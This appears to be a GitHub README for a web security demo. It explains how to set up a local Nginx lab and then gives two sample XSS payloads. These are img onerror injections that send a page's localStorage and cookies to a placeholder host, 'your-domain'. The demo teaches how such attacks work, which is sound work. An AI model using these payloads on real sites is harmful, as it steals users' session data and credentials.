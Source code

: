 # Web Application Security
The application runs on the "local.dev" domain, and you should define the domain on your "hosts" file.
```shell
127.0.0.1	local.dev
```
## Where is the Hosts File Located?
- Windows 10 - `C:\Windows\System32\drivers\etc\hosts`
- Linux - `/etc/hosts`
- Mac OS X - `/private/etc/hosts`

## How to start Nginx
Run the following command to run the Nginx. Docker compose is located in the web directory
```shell
docker-compose up
```

## Sample of XSS attack
Inject the sample code below to see how the XSS attack works

### Stealing local storage
```html
<img src=x onerror=this.onerror=null;this.src='http://your-domain/gateway/api/cookie/collect.gif?cookie='+encodeURIComponent(JSON.stringify(window.localStorage)) />
```

### Stealing insecure cookie
```html
<img src=x onerror=this.onerror=null;this.src='http://your-domain/gateway/api/cookie/collect.gif?cookie='+document.cookie />
```

## Reference

- [Web Application Security](https://www.nginx.com/resources/library/web-application-security/)
- [Mozilla - Set-Cookie](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie)
- [SameSite cookies explained](https://web.dev/samesite-cookies-explained/)
- [Please Stop Using Local Storage](https://dev.to/rdegges/please-stop-using-local-storage-1i04)
